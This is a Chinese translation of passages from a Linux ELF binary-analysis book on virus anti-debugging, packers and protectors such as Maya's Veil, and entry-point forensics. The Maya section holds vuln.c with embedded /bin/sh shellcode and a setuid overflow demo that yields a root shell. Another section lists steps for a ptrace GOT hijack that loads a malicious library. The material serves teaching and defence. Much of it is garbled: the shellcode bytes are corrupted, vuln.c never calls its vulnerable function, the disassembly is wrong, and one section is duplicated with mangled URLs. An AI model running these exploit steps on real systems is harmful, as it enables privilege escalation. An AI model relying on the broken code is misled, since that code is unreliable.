### SIGTRAP 处理程序技术

在调试时，我们经常设置断点，这会产生一个 SIGTRAP 信号。通过这种技术，程序在捕获 SIGTRAP 信号时，会将全局变量从 0 增加到 1。

```c
static int caught = 0;

int sighhandle(int sig)
{
    asm volatile("int3");

    if (caught == 0) {
        caught = 1;
    } else {
        exit(0);
    }
}
```

### /proc/status 技术

如输出所示，`TracerPid: 0` 进程没有被跟踪。程序要查看自己是否被跟踪，只需打开 `/proc/status` 并检查该值是否不为 0。`/proc/status` 的布局如下：

```
Name: head
State: R (running)
Pid: 1234
Tid: 1234
PPid: 1100
TracerPid: 0
```

## ELF 病毒技术 – Linux/Unix 病毒

### 代码混淆技术

代码混淆（也称为代码转换）是一种修改汇编级代码以包含透明分支指令或干扰反汇编器的错位指令的技术。考虑以下示例：

```
jmp antidebug + 1
antidebug:
.short 0xe9;跳转指令的首字节
mov $0x31337,%eax
```

当上述代码编译并使用 objdump 反汇编器查看时，它看起来如下：

```
4: jmp 7 <antidebug+0x1>
<antidebug:
6: e9 00 b8 37 13 jmp ...
```


### 字符串转换技术

这是我在 2008 年构的技术，尚未看到它被广泛使用，但我怀疑它在某些地方被使用过。这种技术背后的思想利用了我们对 ELF 符号名称和节头字符串的知识。诸如 `objdump` 和 `gdb`（通常用于逆向工程）之类的工具依赖于字符串表打乱 ELF 文件中每个符号和节名称的顺序。这种技术使得节头完全混乱（或看起来是这样），函数和符号的名称也是如此。

这种技术对逆向工程师来说可能非常有误导性；例如，他们可能认为正在查看一个名为 `check_serial_number()` 的函数，但实际上他们看的是 `safe_strcp()`。我将其实现在名为 `elfscure` 的工具中，该工具位于 `http://www.bitlacks.org/projects/elfscure.c`。

## ELF 病毒检测与消毒

检测病毒可能比消毒它们复杂得多。我们现代的杀毒软件简直是个笑话，而且非常无效。标准的杀毒软件使用扫描字符串（即签名）来检测病毒。换句话说，如果一个已知病毒在二进制文件的给定偏移处具有字符串 `h4h.infect+1`，那么杀毒软件就会发现其存在于数据库中，并将其标记为已感染。从长远来看，这种方法非常无效，尤其是病毒不断地变异成新的变种。

某些杀毒产品已知使用仿真进行动态分析，这可以为启发式算法提供执行文件在运行期间的信息。动态分析可能很强大，但众所周知其速度缓慢。Silvio Cesare 在动态恶意软件解包和分类方面取得了一些突破，但我不确定这种技术是否已被主流采用。

目前，用于检测和消毒 ELF 二进制条目的软件非常少。这可能是因为不存在一个更主流的市场，而且许多此类攻击以某种方式仍处于地下状态。毫无疑问，黑客正在利用这些技术来隐藏后门并在受感染的系统中保持隐身居住。目前，我正在开发一个名为 `Arcana` 的项目，它可以检测和消毒许多类型的 ELF 二进制条目，包括执行文件、共享库和内核驱动程序，它还能使用 `EFS` 快照（第 8 节 *ECFS - 扩展文件快照技术* 中描述），这大大改进了进程取证。在此期间，你可以阅读或下载内存项目之一，这些是我几年前设计的原型：

- `VMA Voodoo` (`http://www.bitlacks.org/#vmavudu`)
- `AVU (Anti Virus Unix)` 位于 `http://www.bitlacks.org/projects/avu2.tgz`

### ELF 病毒技术 – Linux/Unix 病毒

Unix 环境中的大多数病毒在系统被破坏后植入，并通过记录有用信息（如用户名/密码）或通过后门挂钩守护进程来维持在系统中的驻留。我在该领域设计的软件最可能被用主机入侵检测软件或用于二进制文件和进程内存的自动取证。请关注 `http://bitlackkeys.org/` 以查看有关 `Arcana` 发布的更新，这是我最新的 ELF 分析软件，它将是第一个具备 ELF 二进制文件完整分析和检测能力的真实生产软件。

我决定不在本章专门写一个章节讨论启发式和病毒检测，因为我们将在 6 节“Linux 中的 ELF 二进制文件取证”中讨论大部分这些技术，在那里我们将检查用于检测二进制感染的方法和启发式算法。

### 总结

在本章中，我们涵盖了关于 ELF 二进制文件病毒工程的“必须知道”的信息。这些知识并不常见，因此希望本章能作为计算机科学地下世界中这种奥秘病毒艺术的独特介绍。到目前为止，你应该了解最常见的病毒感染技术、反调试技术，以及在创建和分析 ELF 病毒时面临的挑战。这些知识在逆向病毒或进行恶意软件分析时将大有用处。值得注意的是，在 `http://vxheaven.org` 上可以找到许多优秀的论文，有助于加深对 Unix 病毒技术的见解。

## Linux 二进制文件保护

在本章中，我们将探索 Linux 程序混淆的基本技术和动机。那些混淆或加密二进制文件或使它们难以被篡改的技术被称为软件保护方案。通过“软件保护”，我们指的是二进制保护或二进制加固技术。二进制加固并非 Linux 所有；事实上，在这一技术领域，Windows 操作系统有更多产品。许多人没有意识到 Linux 也有这种技术的市场，尽管有很多保护器可以选择。二进制加固是可见的。在过去的十年中，黑客社区发布了许多二进制保护器，其中一些开辟了二进制保护的道路。一整本书都可以专门用于软件保护的艺术，但对于 ELF 的某些二进制保护技术，我在这里只介绍基础知识和一些有趣的技巧。

### ELF 二进制包器

**包器（packer）** 是一种恶意软件作者和黑客常用的压缩或加密执行文件以混淆其代码和数据的软件。一种非常常见的包器名为 `UPX` (`http://upx.sourceforge.net`)，并适用于大多数 Linux 发行版。这种类型包器的原始目的是压缩执行文件以减小体积。

由于代码是压缩的，它必须在执行中内存中解压——这就是事情变得有趣的地方，我们将在“存根机制与用户态执行”部分讨论其原理。无论如何，恶意软件作者已经意识到压缩他们的受感染文件可以规避杀毒检测。这导致反病毒研究人员开发了自动包器，它们现在被大多数（甚至是所有）现代杀毒产品使用。

如今，“压缩二进制”术语不仅指压缩二进制文件，还指加密二进制文件或带有任何类型混淆层的二进制文件。自 21 世纪初以来，出现了一些著名的 ELF 二进制保护器，塑造了 Linux 二进制保护的未来。我们将探索每一个，并作为保护 ELF 二进制文件的不同技术的模型。在此之前，让我们根是如何加载和执行压缩文件的。

### 存根机制与用户态执行

首先，需要理解软件保护器实际上由两个程序组成：

- 保护阶段代码：对目标二进制应用保护的程序
- 运行时引擎或存根：与目标二进制合并的程序，负责运行时的去混淆和反调试

保护器的差异很大，取决于应用于目标二进制文件的保护类型。应用于二进制文件的任何类型保护都必须被运行时代码理解。运行时代码（或存根）必须知道解密或去混淆与其合并的文件。在大多数软件保护案例中，合并了一个相对简单的运行时引擎；其唯一目的是解密二进制文件并将控制权交给内存中的解密二进制文件。

这种类型的运行时引擎并不是引擎——实际上我们称之为存根（stub）。存根通常在没有任何链接的情况下编译（例如 `gcc -nostdlib`），或者是静态编译的。这种存根虽然比真正的运行时引擎简单，但实际上仍然很复杂，因为它必须能够在内存中 `exec()` 程序——这就是用户态执行（userland exec）发挥作用的地方。我们可以感谢 `grugq` 在此处的贡献。

## 第 5 章

`SYS_execve` 系统调用通常由 `glibc` 封装（例如 `execve`、`execv`、`execl` 和 `execle`）用于加载并运行可执行文件。对于软件保护器来说，可执行文件是被加密的，必须在执行之前进行解密。一个不专业的黑客可能会编写存根来解密可执行文件，将其写入解密后的形式，然后再使用 `SYS_execve` 执行，尽管原始的 `UPX` 壳程序确实是这样工作的。

实现这一目标的高级方法是在内存中直接解密可执行文件，然后从内存——而不是文件中加载并执行它。这可以通过用户态代码完成，因此我们将这种技术称为用户态执行（userland exec）。许多软件保护器都实现了此类功能的存根。实现用户态可执行文件的挑战之一是，它必须将段加载到指定的地址范围内，而这些地址通常与存根可执行文件指定的地址相同。

这对于 `ET_EXEC` 类型的可执行文件是一个问题（因为它们不是位置无关的），通常通过使用自定义链接脚本来解决，该脚本告诉存根可执行文件的段加载到默认地址以外的地址。此类链接脚本的示例可以在第一章《Linux 环境及其工具》中的链接脚本节中找到。

> 在 x86 32 位上，默认基地址是 `0x8048000`；在 `x86_64` 上，它是 `0x400000`。存根应该具有与默认地址范围不冲突的加载地址。例如，我最近写的一个示例，其链接方式使得文本段被加载到 `0xa00000`。

### Linux 二进制文件保护

图 5.1 直观地展示了加密的可执行文件是如何嵌入存根可执行文件的数据段中并包裹在内的，这就是为什么存根也被称为包装器（wrappers）。

> 我们将在第六章《Linux 中的 ELF 二进制取证》中的“识别受保护的二进制文件”中展示，在很多情况下剥离壳实际上是一个轻易的任务，以及如何使用软件或脚本将其变为自动化任务。

一个典型的存根执行以下任务：

- 解密其有效负载（即原始可执行文件）
- 将可执行文件的可加载段映射到内存中
- 将动态链接器映射到内存中
- 创建栈（通过 `mmap`）
- 设置栈（`argv`、`envp` 和辅助向量）
- 将控制权交给程序的入口点

> 如果受保护的程序是动态链接的，则控制权将交给动态链接器的入口点，随后动态链接器将其传递给可执行文件。

这种存根本质上是一个用户态实现，它加载并执行嵌入在自身程序体中的程序，而不是作为一个独立文件的可执行文件。

> 原始的用户态执行研究和算法可以在 `grugq` 的论文《The Design and Implementation of Userland Exec》中找到，地址为 `https://github.com/grugq/docs/ul_exec.txt`。

### 保护器示例

让我们看看可执行文件在被我写的简单保护器保护前后的状态。使用 `readelf` 查看程序头，我们可以看到二进制文件包含了我们在动态链接的 Linux 可执行文件中预期的看到的所有段：

```
$ readelf -l test
```

```
Elf file type is EXEC (Executable file)
Entry point 0x400520
There are 9 program headers, starting at offset 64
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000000040 0x0000000000000040
                 0x00000000000001f8 0x00000000000001f8  R      8
  INTERP         0x0000000000000238 0x0000000000000238 0x0000000000000238
                 0x000000000000001c 0x000000000000001c  R      1
      [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x00000000000008e4 0x00000000000008e4  R      20000
  LOAD           0x0000000000001000 0x0000000000601000 0x0000000000601000
                 0x0000000000000248 0x0000000000000250  RW     20000
  DYNAMIC        0x0000000000001280 0x0000000000601280 0x0000000000601280
                 0x00000000000001d0 0x00000000000001d0  RW     8
  NOTE           0x0000000000000254 0x0000000000400254 0x0000000000400254
                 0x0000000000000044 0x0000000000000044  R      4
  GNU_EH_FRAME   0x0000000000000774 0x0000000000400774 0x0000000000400774
                 0x000000000000004c 0x000000000000004c  R      4
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     10
  GNU_RELRO      0x0000000000001e10 0x0000000000601e10 0x0000000000601e10
                 0x00000000000001f0 0x00000000000001f0  R      1
```

现在，让我们在二进制文件上运行我们的保护器并查看程序头：

```
$ ./elfpack test
$ readelf -l test
Elf file type is EXEC (Executable file)
Entry point 0xa01136
There are 5 program headers, starting at offset 64
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  LOAD           0x0000000000000000 0x0000000000a00000 0x0000000000a00000
                 0x0000000000000270 0x0000000000000270  R      1000
  LOAD           0x0000000000000300 0x0000000000c00300 0x0000000000c00300
                 0x000000000000032f 0x0000000000003b4d  RW     1000
```

### Linux 二进制文件保护

你会注意到许多不同之处。入口点是 `0xa01136`，只有两个可加载段，即文本段和数据段。这两个段在之前位于完全不同的加载地址。

这无疑是因为存根的加载地址不能与其包含的加密可执行文件的加载地址冲突，后者必须被加载并映射到内存。原始可执行文件的段地址为 `0x400000`。存根负责解密嵌入的可执行文件，然后将其映射到 `PT_LOAD` 程序头指定的加载地址。

如果地址与存根的加载地址冲突，它将无法工作。这意味着存根必须使用自定义链接脚本进行编译。这种方法通常通过修改 `ld` 命令所使用的现有链接脚本来实现。对于示例中使用的保护器，我修改了链接脚本中的一行：

- 原始的：
```
PROVIDE (executable_start = SEGMENT_START("text-segment", 0x400000));
```

- 修改后为：
```
PROVIDE (executable_start = SEGMENT_START("text-segment", 0xa00000));
```


你从程序头还可以注意到的另一个点是不存在 `INTERP` 段或 `DYNAMIC` 段。对于外行的执行文件来说，这看起来像是一个静态链接的可执行文件，因为它没有动态链接。记住，原始可执行文件是被加密并嵌入在存根中的，这就是为什么存根也被称为包装器。

### 保护器存根的其他工作

除了解密并将嵌入加载到内存（这是用户态执行组件的功能）外，存根还可能执行其他任务。存根通常会启动反调试和反仿真程序，旨在进一步保护二进制文件免受调试。

### 现有的 ELF 二进制保护器

多年来，出现了一些公开的和来自地下世界的著名的二进制保护器。我将讨论一些 Linux 保护器并对各种功能进行概述。

### Grugg 的 DacryFile – 2001

DacryFile 是我知道的最早的 Linux 保护器（https://github.com/packs/binary-encryption/tree/master/binary-encryption/dacryfile）。该保护器简单但非常巧妙，工作原理与 ELF 病毒非常相似。在许多保护器中，存根包裹加密的可执行文件，但在 DacryFile 的情况下，存根只是注入到受保护二进制中的简单解密路径。DacryFile 使用 RC4 加密从文本段开始到段结束的二进制文件。解密存根是用汇编和 C 编写的简单程序，它没有用户态执行函数；它只是解密加密的代码体。该存根被插入数据段的末尾，这非常像病毒插入寄生。执行文件的入口点被修改指向存根，执行二进制文件时，存根会解密程序的文本段。

### Burneye by Scut – 2002

许多人认为 Burneye 是 Linux 上第一个像样的二进制加密用例。按今天的标准来看，它会被认为是较弱的，但它确实带来了一些创新特性。这包括三层加密，其中第三层是密码保护层。

密码被转换为一种哈希和，然后用于解密最外层。这意味着除非为二进制文件提供正确的密码，否则它永远不会解密。另一个名为指纹层的层可以代替密码层。该功能通过一种对保护该二进制文件的系统进行指纹识别的算法创建一个密钥，防止二进制文件在目标以外的任何其他系统上被解密。

它还有一个自毁功能；在执行后它会删除该二进制文件。Burneye 与其他保护器相比的主要区别之一是它是第一个使用底层技术封装二进制文件的工具。从技术上讲，这最早由 John Resier 为 UPX 壳程序实现，但 UPX 更多地是一个二进制压缩器而不是保护器。据传 John 将用户态的知识传给了 Scut，后者是 Scut 和 Grugg 在 Phrack S8 文章中提到的另一人，关于 ELF 二进制文件保护的文章发表在 http://phrack.org/issues/58/5.html。这篇文章描述了 Burneye 的内部工作，强烈推荐阅读。

> 一个名为 `objobf`（意为对象混淆器）的工具也由 Scut 设计。该工具混淆 `ELF32 ET_REL`（对象文件），使得代码非常难以反汇编译，但在功能上是等同。通过使用不透明分支和非对齐执行等技术，这可以有效检测静态分析。

### Shiva by Neil Mehta and Shawn Clowes – 2003

Shiva 可能是当时公开的最好的 Linux 二进制文件保护工具。其源代码从未发布——只发布了保护器——但作者在包括 Blackhat USA 在内的各种会议上进行了过次演说演示。这些演示揭示了它的许多技术。

Shiva 适用于 32 位 ELF 可执行文件，并提供了一个完整的运行时引擎（而不仅仅是解密存根），在它保护的整个过程中持续协助解密和反调试功能。Shiva 提供了三层加密，其中最内层从不完全解密可执行文件。它每次解密 1,024 字节块，然后重新加密。

## 第5章

对于足够大的程序，在任何给定时间不超过 1/3 的程序会被解密。另一个强大的功能是内置的反调试——Shiva 保护器使用了一种技术，运行时引擎使用 `clone()` 创建一个线程来跟踪父进程，而父进程反过来跟踪该线程。这使得基于 `ptrace` 的动态分析变得不可能，因为单个进程（或线程）可能没有多个跟踪器。此外，由于两个进程互相跟踪，没有其他调试器可以附加。

著名的逆向工程师 Chris Eagle 使用 IDA 的 x86 模拟器插件成功解包了一个受 Shiva 保护的二进制文件，并在 Blackhat 上对这一成就进行了演示。据报道，对 Shiva 的逆向工程是在 3 周内完成的。

作者的演示：

- https://www.blackhat.com/presentations/bh-usa-03/bh-us-03-mehta/mehta.pdf
- Chris Eagle（破解了 Shiva 的人）演示：
  http://www.blackhat.com/presentations/bh-federal-03/bh-federal-03-eagle/bh-fed-03-eagle.

### Maya's Veil by Ryan O'Neill – 2014

Maya's Veil 由 Ryan 在 2014 年设计，用于 ELF4 二进制文件。直到，该保护器仍处于原型阶段，尚未公开发布，但有一些分叉版本演变成了 Maya 项目的变体。其中之一是 `github.com/elfmaster/`，它是 Maya 的一个版本，仅包含了反利用技术，例如控制流完整性。我有权详细阐述其内部原理的细节，主要是为了激发对此类感兴趣读者的兴趣和创造力。除了我是它的作者外，我个人也非常平易近处人，如果你对 Maya's Veil 有更多问题，请随时联系我。

首先，这个保护器被设计为纯用户态的解决方案（这意味着没有巧妙内核模块的帮助），同时能够保护具有足够反篡改特性的二进制文件——更令人印象深刻的是——具有额外的反利用功能。Maya 目前所拥有的许多功能只在编译器插件中见过，而 Maya 直接作用在已编译的可执行二进制文件上操作。

Maya 极其复杂，记录其所有的内部原理将成为对二进制保护主题的完整详尽解释，但我将总结它一些最重要的特性。Maya 可用于创建第 1 层、第 2 层或第 3 层保护的二进制文件。在第一层，它使用了一个智能运行时引擎；该引擎被编译为对象文件 `runtime.o`。

该文件通过反架构扩展（参见第 4 章，ELF 病毒技术 – Linux/Unix 病毒）结合可重定位代码注入重链技术注入。本质上，运行时引擎的对象文件链接到它所保护的可执行文件。该文件非常重要，因为它包含了反调试、反利用等。该文件由 90% 的 C 语言和 10% 的 x86 汇编写。

### Maya 的保护层

Maya 有多层保护。每增加的一层都会增加攻击者剥离所需的安全级别。最外层有助于防止静态分析，而最内层层（第 1 层）仅在需要时解密。

### 第 1 层

第 1 层保护的二进制文件由二进制文件的每个函数单独加密组成。每个函数在被调用和返回时动态解密并重新加密。此 `runtime.o` 包含一个智能且自主的引擎。

运行时引擎本身使用了代码混淆技术进行混淆，正如 Scott 的对象混淆器工具所示。解密和重新加密函数的密钥存储和元数据存储在加密堆的自定义 `malloc` 实现中。这使得定位密钥变得困难。第 1 层保护是最基础也最复杂的级别，因为它为二进制文件提供了动态解密、反调试和反利用的智能自主自跟踪能力。


第 1 层保护的二进制文件与原始文件的布局对比简化图

### 第 2 层

第 2 层保护的二进制文件与第 1 层保护的二进制文件相同，不同之处不仅是函数，二进制文件中的其他所有节都被加密以防止静态分析。这些节在运行时解密，如果有人能够转储进程，某些数据将会暴露，这必须通过内存驱动完成，因为使用了 `prctl()` 来保护进程免受普通用户态转储（同时也停止生成核心文件）。

### 第 3 层

第 3 层保护的二进制文件与第 2 层相同，不同之处在于通过将第 2 层二进制文件嵌入第 3 层存根的数据段中，又增加了一层完整的保护。第 3 层存根的工作原理类似于传统的用户态执行。

### Maya 的 nanomites

Maya's Veil 具有许多其他难以逆向工程的特征。其中一种特征被称为 nanomites。即原始二进制文件中的某些指令被完全删除并替换为垃圾指令或断点。

### Linux 二进制保护

当 Maya 的运行时引擎看到这些垃圾指令或断点之一时，它会检查其 nanomite 记录，查看原来的原始指令是什么。这些记录存储在运行时引擎的加密堆段中，因此对于逆向工程师来说，访问这些信息并非易事。一旦 Maya 知道原始指令的作用，它就会使用 `ptrace` 系统调用来模拟该指令。

### Maya 的反利用保护

Maya 的反利用特性使其与其它保护器与众不同。大多数保护器的目标是让逆向工程变得困难，而 Maya 能够增强二进制文件，使其许多固有漏洞（如缓冲区溢出）无法被利用。具体而言，Maya 通过通过嵌入运行时引擎的特殊控制流完整性对桩二进制文件来防止 **ROP（返回定向编程）**。

受保护二进制文件中的每个函数在入口点和每个返回指令处都设置了一个断点。`int3` 断点传递 `SIGTRAP` 信号触发运行时引擎；随后，运行时引擎执行以下操作之一：

- 解密函数（仅当命中 `int3` 断点时）
- 加密函数（仅当命中返回处的 `int3` 断点时）
- 检查返回地址是否被覆盖
- 检查 `int3` 断点是否为 nanomite；如果是，则进行模拟

第三个项目是反 ROP 特性。运行时引擎检查一个哈希表，该表包含程序内各个点的有效返回地址。如果返回地址无效，Maya 将退出，利用尝试将失败。

以下是一个易漏洞软件代码示例，它是专门为测试和展示 Maya 的反 ROP 特性而设计的：

### vuln.c 源代码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

/*
 * 此 shellcode 执行 execve("/bin/sh", ...)
 */
char shellcode[] =
"\xeb\x1d\x5b\x31\x30\x07\x87\x89\x07\x89\x08\x5b\x57\x67\x43\x49\x49\x43"
"\x0c\x31\x30\x00\x0b\x67\x8d\xb4\x08\x67\x8d\x53\x0c\xcd\xe8"
"\xde\xff\xff\xff\x2f\x62\x69\x6e\x62\x73\x68\x64\x41\x41\x41\x42\x2";

/*
* 此函数易受缓冲区溢出攻击。我们的目标是
* 将返回地址覆盖为 0x41414141，这是我们
* 使用 mmap() 映射并存储 shellcode 的
* 地址
*/
int vuln(char *s) {
    char buf[32];
    int i;

    for (i = 0; i < strlen(s); i++) {
        buf[i] = *s;
        s++;
    }
}

int main(int argc, char **argv) {
    if (argc < 2) {
        printf("Please supply a string\n");
        exit(0);
    }
    int i;
    char *mem = mmap((void *)(0x41414141 & ~4095), 4096,
                   PROT_READ|PROT_WRITE|PROT_EXEC,
                   MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,
                   -1,
                   0);

    memcpy((char *) (mem + 0x1441), (void *)&shellcode, 46);
    exit(0);
}
```

### 漏洞 vuln.c 的示例

让我们看看如何利用 vuln.c

```bash
$ gcc -fno-stack-protector vuln.c -o vuln
$ sudo chmod u+s vuln
$ ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# whoami
root
#
```

现在让我们使用 Maya 的 `-cse` 选项保护 vuln，这意味着控制流完整性。然后我们将尝试利用受保护的二进制文件：

```bash
$ ./maya -12 cse vuln
```

[MODE] 第 2 层：反调试/反代码注入、运行时函数级保护以及代码/数据的外层加密

[MODE] CFG ROP 保护和反利用

+] 提取 RO 重位信息

+] 生成控制流数据

+] 函数层解密知识：

+] 应用主机可执行代码加密：simple cipher S

+] 应用主机可执行/数据段：SALSA20 流加密（第 2 层保护）

+] Maya 的 Mind 注入地址：0x3c9000

+] 加密知识：11892 字节

+] 提取 RO 重位信息

+] 成功保护二进制文件，输出文件名为 vuln.maya

```bash
$ ./vuln.maya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[MAYA] 检测到非法返回
Segmentation fault
```

### 另一种反利用技术

Maya 的反利用特性使其与其它保护器与众不同。大多数保护器的目标是让逆向工程变得困难，而 Maya 能够增强二进制文件，使其许多固有漏洞（如缓冲区溢出）无法被利用。具体而言，Maya 通过嵌入运行时引擎的特殊控制流完整性对桩二进制文件来防止 **ROP（返回定向编程）**。

受保护二进制文件中的每个函数在入口点和每个返回指令处都设置了一个断点。`int3` 断点传递 `SIGTRAP` 信号触发运行时引擎；随后，运行时引擎执行以下操作之一：

- 解密函数（仅当命中 `int3` 断点时）
- 加密函数（仅当命中返回处的 `int3` 断点时）
- 检查返回地址是否被覆盖
- 检查 `int3` 断点是否为 nanomite；如果是，则进行模拟

第三个项目是反 ROP 特性。运行时引擎检查一个哈希表，该表包含程序内各个点的有效返回地址。如果返回地址无效，Maya 将退出，利用尝试将失败。

以下是一个易漏洞软件代码示例，它是专门为测试和展示 Maya 的反 ROP 特性而设计的：

### vuln.c 源代码

(此处代码部分与上文一致)

### 检查特定指令之间的计时延迟

另一种有时会导致模拟器本身产生不稳定的技术是检查某些指令之间的时间戳，并查看执行这些所需的时间。真实的 CPU 执行一组指令的速度应该比模拟器快几个数量级。

### 混淆方法

二进制文件可以通过许多创意方式进行混淆或加密。大多数二进制保护器只是使用一层或多层保护保护整个二进制文件。在运行时，二进制文件会被解密，并可以从内存中导出以获取未加密二进制文件的副本。在更高级的保护器（如 Maya）中，每个函数都是被单独加密的，并且每次只允许解密一个函数。

一旦二进制文件被加密，它必须在某处存储加密密钥。在 Maya（之前讨论过的）的情况下，它设计了一个使用加密来存储加密密钥的自定义堆实现。在某个时刻，似乎必须暴露一个密钥（例如用于解密另一个密钥的密钥），但可以使用白盒加密等特殊技术使这些最终密钥变得极度混淆。如果保护器使用了内核辅助，则可能将密钥存储在二进制文件之外并完全进行内存处理。

代码混淆技术（例如第 4 节中描述的虚假反汇编，《ELF 病毒技术 – Linux/Unix/病毒》）也常用于二进制保护，以使已解密或从不加密代码的静态分析变得困难。二进制保护器通常还会从二进制文件中剥离节头表，并移除其中任何不需要的字符串和字符串表（例如符号）。

### 保护控制流完整性

受保护的二进制文件目标应该是保护运行时的程序（二进制文件本身），其程度不亚于保护磁盘上静态的二进制文件。运行时攻击通常可以分为两类：

- 基于 `ptrace` 的攻击
- 基于漏洞的攻击

### 基于 ptrace 的攻击

第一类，即基于 `ptrace` 的攻击，也属于进程调试的范畴。正如已经讨论过的，二进制保护器希望让逆向工程师进行基于 `ptrace` 的调试变得非常困难。然而，除了调试之外，还有许多其他可能破坏受保护二进制文件的攻击，了解并理解这些攻击至关重要，以便进一步阐明为什么二进制保护器想要防止运行中的进程受到 `ptrace` 的跟踪。

如果一个保护器已经进步到能够检测断点指令（从而增加调试的难度），但无法保护自己免受 `ptrace` 的跟踪，那么它可能仍然容易受到基于 `ptrace` 的攻击，例如函数劫持和共享库注入。攻击者可能不想简单地解包受保护的二进制文件，而只想更改二进制文件的行为。良好的二进制保护器应该尝试保护其控制流的完整性。

假设攻击者意识到受保护的二进制文件正在调用 `dlopen()` 函数来加载共享库，而攻击者想要加载一个木马化的共享库。以下步骤可能导致攻击者通过更改控制流来破坏受保护的二进制文件：

1. 使用 `ptrace` 附加进程。
2. 修改 `dlopen()` 的全局偏移表（GOT）项指向 `__libc_dlopen_mode`（在 `libc.so` 中）。
3. 调整 `rdi` 寄存器使其指向路径：`/tmp/evil_lib.so`。
4. 继续执行。


此时，攻击者已经迫使受保护的二进制文件加载了恶意共享库，从而完全破坏了受保护二进制文件的安全性。

正如之前讨论过的，Maya 保护器通过一个作为活动调试器的运行时引擎来防御此类漏洞，该引擎防止任何其他进程附加。如果保护器能够禁用 `ptrace` 附加到受保护的进程，那么该进程遭受此类运行时攻击的风险就会小得多。

## 基于漏洞的攻击

基于漏洞的攻击是一种攻击类型，攻击者可能利用受保护程序中的固有弱性（例如基于栈的缓冲区溢出），并随后将执行流更改为他们选择的内容。

这类攻击在受保护的程序上执行通常更为困难，因为它提供的信息较少，且使用调试器来缩小保护器在内存中所使用的位置以获取洞察可能更具挑战。尽管如此，这种类型的攻击是非常可能的，这就是为什么 Maya 保护器强制执行控制流完整性和只读重定位，以专门防止漏洞利用攻击。

我不清楚目前是否还有其他保护器正在使用类似的反漏洞利用技术，但我只能推测它们是存在的。

## 其他资源

仅就二进制保护写一章本身远不足以教你关于该主题的所有知识。然而，书中的其他章节相辅相成；当它们结合在一起时，将帮助你进到更深层次的理解。关于这个主题有很多很好的资源，其中一些已经提到过。

特别推荐阅读由 Andrew Griffith 编写的资源。这篇论文描述了许多对于当今二进制保护器来说仍然非常有相关意义的技术和实践：

```
http://www.bitlkeys.org/resources/binary_protection_schemes.pdf
```

这篇论文之后在晚些时候进行了一个演讲，可以在这里找到幻灯片：

```
http://2005.recon.cx/recon2005/papers/Andrew_Griffiths/protecting_binaries.pdf
```

## 总结

在本章中，我们揭示了 Linux 二进制文件基础二进制保护方案的内部机制，并讨论了过去十年发布的针对 Linux 的现有二进制保护器的各种功能。

在下一章中，我们将从相反的角度进行探索，开始研究 Linux 中的 ELF 取证。

# 6 Linux 中的 ELF 取证

## 入口点修改检测科学

当二进制文件以某种方式被修改时，通常是为了向二进制文件中添加代码，然后将执行流重定向到该代码。执行流的重定向发生在二进制文件内部许多地方。在这种特定情况下，我们将检查一种用于补丁二进制文件（特别是针对病毒）的常用技术。这种技术简单地修改入口点，即 ELF 文件头中的 `e_entry` 成员。

目标是确定 `e_entry` 是否持有一个指向指示二进制文件异常修改位置的地址。

> 异常意味着任何不是由链接器 `/usr/bin/ld` 本身创建的修改，链接器的工作是将 ELF 对象链接在一起。链接器会创建一个代表正常标准的二进制文件，而不自然的修改通常在受过训练的眼中看起来很可疑。

检测异常的最快方法是了解什么是正常的。让我们来看两个正常的二进制文件：一个是动态链接的，另一个是静态链接的。它们都是使用 `gcc` 编译的，且都没有经过任何方式的篡改：

```bash
$ readelf -h bin | grep Entry Point
Entry point address: 0x400520
```

所以我们可以看到入口点是 `0x400520`。如果我们查看节头，就可以看到该节出现在哪里：

```bash
readelf -S bin | grep 4005
[13] .text PROGBITS 000000000400520 00000500
```

> 在我们的示例中，入口点从 `.text` 节开始。这并不总是如此，因此，像我们之前那样搜索前几个有效的十六进制数字并不是一致的方法。建议你同时检查每个节头的地址和大小，直到找到地址范围包含入口点的节。

正如我们所见，它指向 `.text` 节的开头，这是常见的。取决于二进制文件是如何编译和链接的，这可能会随着查看的每个二进制文件而改变。这个二进制文件的编译方式使它链接到 `libc`，就像你遇到的 99% 的二进制文件一样。这意味着入口点包含一些特殊的初始化代码，并且在每个链接 `libc` 的二进制文件中看起来几乎完全相同，所以，让我们来看看它，这样我们知道分析二进制文件的入口点代码时就有所预期：

```bash
$ objdump -d --section=.text bin
```

```assembly
00000000040520 <start>:
040520:    31 ed               xor     %ebp,%ebp
040522:    49 89 d1             mov     %rdx,%r9
040525:    5e                   pop     %rsi
040526:    48 89 e2             mov     %rsp,%rdx
040529:    48 83 e4 00          and     $0xffffffff,%rsp
04052d:    50                   push     %rax
04052e:    54                   push     %rsp
04052f:    49 c7 c0 20 07 04 00  mov     $0x0400720,$r8 // __libc_csu_finit
040536:    48 c7 c0 c1 b0 06 04 00  mov     $0x04006d0,$rcx // __libc_csu_init
04053d:    48 c7 c7 0d 06 04 00  mov     $0x040060d,$rdi // /(main())
040544:    e8 87 ff ff ff          callq   4004d0 // call libc_start_main()
```

前面的汇编代码是 ELF 头 `e_entry` 指向的标准 `glibc` 初始化代码。这段代码在 `main()` 之前始终执行，其目的是调用初始化程序 `libc_start_main()`：

```c
libc_start_main(void *)&main, &_libc_csu_finit);
```

此函数设置进程堆段，注册构造函数和析构函数，并初始化与线程相关的数据。它调用 `main()`。

现在你已经知道 `libc` 链接二进制文件中入口点的样子，你应该能够轻松判断入口点地址何时可疑，即它指向看起来不像这样的代码，或者它根本不在 `.text` 节中！

### Linux 下的 ELF 二进制文件取证

